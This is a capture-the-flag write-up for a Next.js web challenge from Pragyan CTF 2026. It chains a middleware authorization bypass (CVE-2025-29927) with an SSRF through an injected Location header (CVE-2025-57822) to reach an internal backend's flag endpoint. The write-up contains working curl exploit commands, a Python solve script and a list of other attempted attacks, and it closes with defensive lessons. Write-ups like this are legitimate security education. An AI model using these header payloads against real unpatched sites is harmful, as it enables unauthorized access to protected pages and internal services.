








# Note Keeper - Pragyan CTF 2026 Web Writeup

**Category:** Web Exploitation
**Difficulty:** Hard
**Points:** 473 (dynamic, started at 500)
**Flag:** `p_ctf{Ju$t_u$e_VITE_e111d821}`
**Solved by:** Smothy @ **0xN1umb** | **FIRST BLOOD**

---


> *"When they tell you the login isn't implemented but you still find a way in..."*

---

## Challenge Description

> Once upon a time, I built a simple application to manage personal notes. I've made it available for you too.
> Can you reach what you're not supposed to?
> https://note-keeper.ctf.prgy.in

A "safe" note-keeping app built on Next.js. Classic web challenge where the author thinks middleware = security. Spoiler: it doesn't. Two CVEs walked into a bar...



## TL;DR

Chained **CVE-2025-29927** (Next.js middleware bypass) to access an admin page leaking internal backend info, then used **CVE-2025-57822** (SSRF via `Location` header injection in middleware's `NextResponse.next()`) to reach the internal Express backend's `/flag` endpoint. Two CVEs, one flag, first blood. Next.js go brrr.



## Initial Recon

First things first - what are we looking at?



```bash
$ curl -sI https://note-keeper.ctf.prgy.in
HTTP/2 200
x-powered-by: Next.js
x-nextjs-cache: HIT
```

Next.js app, confirmed. The homepage is a simple note-taking app that stores notes in `localStorage` (client-side only, no auth needed for the guest page).

The interesting bit? The login link in the top-right corner:

```html
<a href="/login?state=L2FkbWlu">Login</a>
```

```bash
$ echo 'L2FkbWlu' | base64 -d
/admin
```

So there's an `/admin` page. The `state` parameter tells us where to redirect after login. Let's check out that login page:



"Admin Login - Please login to continue". Let's try it:

```bash
$ curl -s -X POST https://note-keeper.ctf.prgy.in/api/login \
  -H 'Content-Type: application/json' \
  -d '{"username":"admin","password":"admin"}'
{"error":{"digest":"TE9HSU4gTk9UIElNUExFTUVOVEVE"}}
```

```bash
$ echo 'TE9HSU4gTk9UIElNUExFTUVOVEVE' | base64 -d
LOGIN NOT IMPLEMENTED
```


Login is intentionally broken. We need another way in. And hitting `/admin` directly?


**"Unauthorized - You're not admin. Please login"**. Middleware is blocking us. But check the HTML comment in the response:

```html
<!--Request Forbidden by Next.js 15.1.1 Middleware-->
```

**Next.js 15.1.1**. That version number is key.

## Step 1: CVE-2025-29927 - Middleware Bypass

Next.js 15.1.1 is vulnerable to **CVE-2025-29927** - a critical middleware authorization bypass. The `x-middleware-subrequest` header is used internally by Next.js to track subrequests and prevent infinite loops. If you send it with enough repeated middleware path values (5+), the framework thinks it's an internal subrequest and **skips middleware entirely**.

```bash
$ curl -s https://note-keeper.ctf.prgy.in/admin \
  -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware'
```

**HTTP/2 200** - We're in!




The admin page reveals 7 notes from the admin. Here's the full intel breakdown:

| # | Note Content | Intel Value |
|---|-------------|-------------|
| 1 | "Damn I hate UI/UX, I should hire someone for that." | Flavor text |
| 2 | "Whiskas adult, Purepet treats, new HDMI cable, batteries at Gandhi Market" | Shopping list lol |
| 3 | "Still thinking about that stupid argument with Shalini akka. Just apologize." | Personal |
| 4 | "That old Next.js middleware vulnerability email is still sitting in my inbox." | **Confirms the vuln is intentional** |
| 5 | "This admin page is a mess. Is should add tags for the notes." | Flavor text |
| 6 | "Should call Nair for some code review here https://pastebin.com/GNQ36Hn4" | **MIDDLEWARE SOURCE CODE!** |
| 7 | "Backend stuff WyIvc3RhdHMiLCAiL25vdGVzIiwgIi9mbGFnIiwgIi8iXQ==" | **BACKEND ROUTES!** |

Two critical findings from the admin notes:

```bash
# Note 7 - Backend routes
$ echo 'WyIvc3RhdHMiLCAiL25vdGVzIiwgIi9mbGFnIiwgIi8iXQ==' | base64 -d
["/stats", "/notes", "/flag", "/"]
```

There's a `/flag` endpoint on the backend! Now we just need to reach it.

## Step 2: Middleware Source Code Analysis

Note 6 links to the middleware source at `pastebin.com/GNQ36Hn4`:



```javascript
import { NextResponse } from "next/server";
import { isAdminFunc } from "./lib/auth";

export const matcher = ['/((?!api|_next/static|_next/image|favicon.ico).*)'];

export function middleware(request) {
  const url = request.nextUrl.clone();

  console.log('Middleware triggered for URL:', url.pathname);

  if (url.pathname.startsWith('/admin')) {
    const isAdmin = isAdminFunc(request);
    if (!isAdmin) {
      return new NextResponse(
        `<html><body><h1>Unauthorized</h1><p>You're not admin. Please login</p>
         <!--Request Forbidden by Next.js 15.1.1 Middleware--></body></html>`, {
        status: 401,
        headers: { 'Content-Type': 'text/html' }
      });
    }
  }

  if (url.pathname.startsWith('/api')) {
    return NextResponse.next({
      headers: request.headers  // <-- THE VULNERABILITY!
      // "required for api routes for decoding Auth Header"
    });
  }

  return NextResponse.next();
}
```

That `headers: request.headers` line is **gold**. The middleware passes ALL incoming request headers directly to `NextResponse.next()`. The dev left a comment saying it's "required for api routes for decoding Auth Header" - but this is exactly what enables CVE-2025-57822.

Also notice the `matcher` - it excludes `/api` routes from the middleware regex, but then has an explicit check for `/api` inside the function. This means `/api` routes still go through the middleware function, and get the vulnerable `NextResponse.next()` with headers passthrough.

## Step 3: Admin Page JS - Backend Discovery

Looking at the admin page's JavaScript bundle (`/_next/static/chunks/app/admin/page-0c02a6e161301232.js`):

```javascript
let n = "http://backend:4000";

// Stats polling every 10s
fetch(n + "/stats").then(e => e.json())...

// Note CRUD
fetch(n + "/notes", { method: "POST", ... })
fetch(n + "/notes", { method: "DELETE", ... })
```

The admin page talks to an internal Express backend at `http://backend:4000`. This is a Docker/container setup where the backend is only accessible from the Next.js server's internal network.

We need to reach `http://backend:4000/flag`, but it's internal. Time for SSRF.

## Step 4: CVE-2025-57822 - SSRF via Location Header


**CVE-2025-57822** describes an SSRF vulnerability in Next.js Middleware where `NextResponse.next()` processes certain headers passed through it, including the `Location` header. When request headers containing a `Location` header are passed to `NextResponse.next()`, the framework performs a **server-side request** to that URL instead of serving the normal page.

The middleware code does exactly this for `/api` routes:
```javascript
return NextResponse.next({
  headers: request.headers  // Passes ALL headers including Location!
});
```

So if we send a request to any `/api/*` path with a `Location` header pointing to the internal backend:

```bash
$ curl -si 'https://note-keeper.ctf.prgy.in/api/login' \
  -H 'Location: http://backend:4000/flag'
```

The Next.js server:
1. Receives our request to `/api/login`
2. Middleware matches `/api` path
3. Calls `NextResponse.next({ headers: request.headers })`
4. Our `Location: http://backend:4000/flag` header triggers server-side redirect
5. Server fetches `http://backend:4000/flag` internally
6. Returns the backend response to us!



## The Flag

```
HTTP/2 200
x-powered-by: Express          <-- Backend responded!
access-control-allow-origin: *
content-type: text/html; charset=utf-8
content-length: 29

p_ctf{Ju$t_u$e_VITE_e111d821}
```


```
p_ctf{Ju$t_u$e_VITE_e111d821}
```

**Ju$t u$e VITE** - the flag is the author telling us to stop using Next.js lmao. Respect.



## The Solve Script

```python
#!/usr/bin/env python3
"""
Note Keeper - Pragyan CTF 2026
Smothy @ 0xN1umb

Chain: CVE-2025-29927 (middleware bypass) + CVE-2025-57822 (SSRF via Location header)
"""
import requests

TARGET = "https://note-keeper.ctf.prgy.in"

# Step 1: CVE-2025-29927 - Bypass middleware to access admin
print("[*] Step 1: Bypassing middleware (CVE-2025-29927)...")
r = requests.get(f"{TARGET}/admin", headers={
    "x-middleware-subrequest": "middleware:" * 5 + "middleware"
})
print(f"[+] Admin page: HTTP {r.status_code}")
print(f"[+] Found {r.text.count('note')} references to notes")

# Step 2: CVE-2025-57822 - SSRF via Location header injection
print("\n[*] Step 2: SSRF via Location header (CVE-2025-57822)...")
r = requests.get(f"{TARGET}/api/login", headers={
    "Location": "http://backend:4000/flag"
})
print(f"[+] Backend response: HTTP {r.status_code}")
print(f"[+] Server: {r.headers.get('x-powered-by', 'unknown')}")
print(f"\n[*] FLAG: {r.text}")
```

## The Graveyard of Failed Attempts


Before finding the SSRF, I tried literally everything:

1. **Direct API access**: `/api/flag`, `/api/notes`, `/api/stats` - all 404, routes don't exist in Next.js
2. **`_next/image` SSRF**: `?url=http://backend:4000/flag` - "url parameter is not allowed"
3. **Host header injection**: `Host: backend:4000` - 503 Service Unavailable
4. **`x-middleware-rewrite`**: Tried injecting rewrite headers - just got the home page
5. **`x-invoke-path` / `x-matched-path`**: Internal Next.js routing headers - no dice
6. **HTTP request smuggling**: Absolute URL in request target - 503
7. **Path traversal**: `/admin/../flag`, URL encoding tricks - all 404
8. **RSC manipulation**: Tried changing `Next-Router-State-Tree` headers - nope
9. **Server Actions**: POST with `Next-Action` header - rendered admin page normally

The key insight was finding CVE-2025-57822 specifically about `NextResponse.next()` processing the `Location` header from passed request headers. The less-known sibling of the middleware bypass.

## Key Takeaways

1. **CVE-2025-29927** is a critical Next.js middleware bypass affecting all versions < 15.2.3. The `x-middleware-subrequest` header is your skeleton key.

2. **CVE-2025-57822** is the less-known sibling - when middleware passes `request.headers` to `NextResponse.next()`, the `Location` header can trigger server-side redirects = SSRF.

3. **Never pass raw request headers** through middleware. Sanitize or allowlist specific headers.

4. **Base64 strings in web apps** are always worth decoding. Two critical clues were base64-encoded (URL state param and admin note).

5. **Internal service discovery** via leaked JS bundles is powerful. The admin page's client-side JS revealed the entire backend architecture at `http://backend:4000`.

6. **Read the source code comments** - "required for api routes for decoding Auth Header" was the breadcrumb that led to the SSRF.

7. **Chain your CVEs** - neither vulnerability alone would get the flag. The middleware bypass gave us intel, the SSRF gave us access.

## Tools Used

- `curl` - HTTP requests and header injection
- `base64` - Decoding encoded strings
- Browser DevTools mindset (reading JS bundles, inspecting responses)
- Web search for CVE details
- Way too much caffeine

---

*Writeup by **Smothy** from **0xN1umb** team.*
*Two CVEs walk into a middleware. Only the flag walks out. First blood. GG.*


